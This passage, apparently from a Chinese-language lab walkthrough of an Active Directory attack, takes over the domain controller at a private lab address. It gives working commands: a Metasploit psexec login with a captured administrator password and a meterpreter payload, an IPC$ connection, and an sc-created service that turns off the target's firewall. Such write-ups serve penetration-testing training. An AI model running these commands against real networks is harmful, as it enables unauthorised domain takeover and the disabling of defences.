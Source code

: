 现在就剩下域控制器DC了。既然都抓取到域管理员的密码了，那我们直接psexec登陆就得了：

use exploit/windows/smb/psexec set rhosts 192.168.93.30 set SMBUser administrator set SMBPass Whoami2021 set payload windows/meterpreter/bind_tcp set rhost 192.168.93.30 run

![img](assets/1700555910568-433b3a99-6828-408d-b3ce-998ca28918cc.jpeg)

失败了，应该是开了防火墙的原因。

没关系，我们已经有了域控的密码了，就可以控制第二层网络的Windows 7远程关闭域控的防火墙了。首先控制第二层网络的Windows 7与域控建立ipc连接：

net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"

![img](assets/1700555910607-4e51c02d-9de2-45dd-889a-3bf0f3cd2dd7.jpeg)

然后执行如下命令，使用sc远程在域制器（192.168.93.30）上创建服务关闭防火墙：

sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off" sc \\192.168.93.30 start unablefirewall

![img](assets/1700555910727-fbf03852-17af-4ee2-9f49-7abf0245abee.jpeg)
